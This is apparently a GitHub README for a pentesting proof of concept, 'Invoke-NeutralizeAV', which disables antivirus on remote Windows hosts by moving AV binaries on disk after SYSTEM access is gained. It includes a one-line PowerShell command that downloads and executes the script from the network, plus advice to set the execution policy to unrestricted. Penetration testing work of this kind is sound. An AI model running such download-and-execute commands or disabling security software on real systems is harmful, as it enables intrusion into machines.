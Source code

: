 # Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  This current version does not yet support an IP list or CIDR notation, but that's coming soon!  

# Instructions
You'll probably want to read the blog first at https://curtbraz.blogspot.com/2018/08/bypassing-next-gen-av-during-pentest.html.  

To first use this script, the assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the target you plan to run this scipt on, it will likely need to be neutralized first before this can be leveraged to disable remote targets.  See the blog for details.  Soon, I'll provide a BAT file so it's not a manual process.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (multiple hosts, disabling services & other methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I can't disclose the one AV vendor I know this works against, but I'm hopeful it will work on others.  I would love it if you could report back on what does/doesn't work.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.
